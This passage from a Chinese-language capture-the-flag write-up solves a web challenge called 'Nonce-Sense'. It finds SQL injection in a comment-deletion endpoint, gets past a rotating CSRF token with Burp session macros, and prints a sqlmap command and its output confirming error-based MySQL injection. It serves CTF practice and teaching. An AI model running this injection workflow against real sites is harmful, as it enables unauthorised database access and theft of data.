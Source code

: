 伪造cookie刷新后拿到flag: OrganicShantyAbsent505 

0x03 第三题 Nonce-Sense
--------------------

* * *

说明:

Flag在数据库里。

解题：

用上面用户的cookie登录后逛了一下，发现用户可以在自己的blog下面删除评论，这个功能是通过ajax POST到deletecomment.php实现的，提交的内容里有CSRF token。

CSRF token会被最先检查，如果不对的话会直接返回错误，这样导致对提交的参数进行自动化测试会比较困难，好在burp提供了宏这个功能，可以让我们自动采集CSRF token然后提交。

每次POST到deletecomment.php这个页面都会返回一个不同的CSRF token，下次提交的时候必须带着才行。

我们可以用burp里的session handler中的宏来抓取，我建议你先读一下这篇:

http://labs.asteriskinfosec.com.au/fuzzing-­and­-sqlmap­-inside-­csrf-­protected­-locations-­part­1/

通过SQL intruder插件，很快就可以发现在comment_id参数中存在SQL注入。

```
{"result":false,"error":"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\"' at line 1","csrf":"43b461afdd56f52f"}  

```

找到注入点后，拿上顺手的SQLMAP和Burp的proxy session宏结合起来，参考这里:

http://labs.asteriskinfosec.com.au/fuzzing-­and­-sqlmap­-inside-­csrf-­protected­-locations-­part­2/

把sqlmap的请求都保存到文件里，并且确保更新session cookie

```
#> sqlmap ­r /root/sql­web3­headers ­­proxy=http://localhost:8080 ­p comment_id
...
[17:15:55] [WARNING] target URL is not stable. sqlmap will base the page
comparison on a sequence matcher. If no dynamic nor injectable parameters are
detected, or in case of junk results, refer to user's manual paragraph 'Page
comparison' and provide a string or regular expression to match on
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] c
...
[17:16:39] [INFO] heuristic (basic) test shows that POST parameter 'comment_id'
might be injectable (possible DBMS: 'MySQL')

...
heuristic (parsing) test showed that the back­end DBMS could be 'MySQL'. Do you
want to skip test payloads specific for other DBMSes? [Y/n] y
do you want to include all tests for 'MySQL' extending provided level (1) and risk
(1)? [Y/n] n
...
[17:17:13] [INFO] POST parameter 'comment_id' is 'MySQL >= 5.0 AND error­based ­
WHERE or HAVING clause' injectable
...
POST parameter 'comment_id' is vulnerable. Do you want to keep testing the others
(if any)? [y/N] n 

```

